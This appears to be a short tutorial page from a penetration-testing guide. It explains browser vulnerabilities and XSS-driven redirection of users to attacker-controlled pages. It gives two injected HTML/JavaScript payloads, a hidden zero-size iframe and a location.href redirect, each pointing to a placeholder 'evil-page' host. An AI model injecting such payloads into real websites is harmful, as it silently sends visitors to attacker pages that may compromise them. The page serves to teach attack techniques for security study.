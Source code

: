 # Browser vulnerabilities

We have mostly been looking at vulnerabilites found in sites that let's us either attack the user or the underlying system. But there is also another sort of vulnerability. When the browser itself is vulnerable and can lead to remote code execution.

And example of this is ms12-036. 


## XSS and redirection

Most attacks against browsers is based on social engineering. The idea is that you trick the user to click on a link. That link, or that website, is usually controlled by the attacker in one way or another. It can eb a legimiate site that the attacker is using, or it might be the attackers own server.

Foe example, if the attacker is able to inject code html or javascript the atacker can redirect the user to load another page.


One technique is to hide the redirection in a frame, this way the user won't even notice that an external page is being loaded. 
```
<iframe SRC="http://192.168.1.101/evil-page" height = "0" width ="0"></iframe>
```
A less subtle technique is by just redirecting the user, with a script like this:
```
<script>location.href='http://192.168.1.101/evil-page';</script>
```